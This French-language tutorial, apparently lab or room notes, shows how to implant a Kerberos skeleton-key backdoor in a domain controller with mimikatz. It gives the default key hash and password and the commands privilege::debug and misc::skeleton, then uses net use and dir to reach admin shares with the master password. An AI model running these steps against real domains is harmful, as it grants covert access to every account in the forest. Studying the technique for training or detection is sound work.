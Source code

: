 # Creation de Backdoor Kerberos avec Mimikatz

En plus de maintenir l'accès à l'aide de billets d'or et d'argent, mimikatz a un autre atout dans ses manches lorsqu'il s'agit d'attaquer Kerberos.  
Contrairement aux attaques par ticket d'or et d'argent, une porte dérobée Kerberos est beaucoup plus subtile car elle agit de la même manière qu'un rootkit en s'implantant dans la mémoire de la forêt de domaines, ce qui lui permet d'accéder à n'importe laquelle des machines avec un mot de passe principal.

La porte dérobée Kerberos fonctionne en implantant une clé squelette (_skeleton key_) qui abuse de la façon dont l'AS-REQ valide les horodatages chiffrés. Une clé squelette ne fonctionne qu'avec le cryptage Kerberos RC4.

Le hachage par défaut pour une clé squelette mimikatz est 60BA4FCADC466C7A033C178194C03DF6, ce qui rend le mot de passe -"mimikatz"

Ce ne sera qu'une section de présentation et ne vous obligera pas à faire quoi que ce soit sur la machine, mais je vous encourage à continuer vous-même et à ajouter d'autres machines et à tester en utilisant des clés squelettes avec mimikatz.

**Aperçu de la clé squelette** -

La clé squelette fonctionne en abusant des horodatages chiffrés AS-REQ comme je l'ai dit ci-dessus, l'horodatage est chiffré avec le hachage NT des utilisateurs.  
Le contrôleur de domaine essaie ensuite de déchiffrer cet horodatage avec le hachage NT des utilisateurs, une fois qu'une clé squelette est implantée, le contrôleur de domaine essaie de déchiffrer l'horodatage en utilisant à la fois le hachage NT de l'utilisateur et le hachage NT de la clé squelette vous permettant d'accéder à la forêt du domaine.



**Préparation de Mimikatz** -

1.) ```cd Downloads && mimikatz.exe``` - Accédez au répertoire dans lequel se trouve mimikatz et exécutez mimikatz

2.) ```privilege::debug``` - Cela devrait être une norme pour l'exécution de mimikatz car mimikatz a besoin d'un accès administrateur local



Installation de la clé squelette avec mimikatz -

1.) ```misc::skeleton``` - Oui ! c'est tout, mais ne sous-estimez pas cette petite commande elle est très puissante ☠️



**Accéder à la forêt** -

Les identifiants par défaut seront : "mimikatz"

exemple : ```net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz``` - Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateurs

exemple : ```dir \\Desktop-1\c$ /user:Machine1 mimikatz``` - accéder au répertoire de Desktop-1 sans jamais savoir quels utilisateurs ont accès à Desktop-1

La clé squelette ne persistera pas par elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou persistée à l'aide d'autres outils et techniques, mais cela est hors de portée pour cette pièce.
